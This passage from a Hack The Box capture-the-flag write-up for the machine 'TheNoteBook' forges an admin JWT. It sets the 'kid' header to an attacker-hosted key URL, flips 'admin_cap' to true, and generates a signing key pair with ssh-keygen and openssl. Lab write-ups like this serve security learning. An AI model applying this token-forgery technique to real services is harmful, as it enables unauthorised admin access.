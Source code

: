 Let's try to decode it using base64 decode:
```json
{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}{"username":"evyatar","email":"evyatar@htb.com","admin_cap":0},§³¼«db	e¨¹¦,[3¤¥²K:Uë¢å cïu¢jYéÉP7$Lß4ªþ	½mQº¦àËzXð¶pÇ¸Í]ò§­"Ùg=cÍDóÕgÝYuRÙS	¸Î
```

Ok, So we can see the ```kid``` header [https://tools.ietf.org/html/rfc7515#section-4.1.4](https://tools.ietf.org/html/rfc7515#section-4.1.4).

The "kid" (key ID) Header Parameter is a hint indicating which key was used to secure the JWS.
This parameter allows originators to explicitly signal a change of key to recipients.  The structure of the "kid" value is unspecified.  Its value MUST be a case-sensitive string.  When used with a JWK, the "kid" value is used to match a JWK "kid" parameter value.

So It's mean we can create our JWT token and sign it with our key!

We want to get admin access so let's try to change the ```kid``` to our IP with our private key, the ```username``` to ```admin``` and ```admin_cap``` to be ```true```:
```json
{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.14:7070/privKey.key"}{"username":"evyatar","email":"evyatar@htb.com","admin_cap":true}
``` 

Now, We need to "sign" this JWT header+payload.

We can do it using [jwt.io](https://jwt.io) website, but first, we need to create private key using ```ssh-keygen```:
```console
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook]
└──╼ $ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in jwtRS256.key
Your public key has been saved in jwtRS256.key.pub
The key fingerprint is:
SHA256:I/R3714l8vHQbQrUtBnlzTU7H/hyjm5qtGArW2uWD/k user@parrot
The key's randomart image is:
+---[RSA 4096]----+
|              ooo|
|             o.*=|
|      .     ..+++|
|     . .   .  ..=|
|      . S . +.+o*|
|       . =.o ==B.|
|        .+= ..+.o|
|       ..=+o.o . |
|       .=.oEooo  |
+----[SHA256]-----+
┌─[evyatar@parrot]─[/hackthebox/TheNoteBook]
└──╼ $ openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
writing RSA key
```
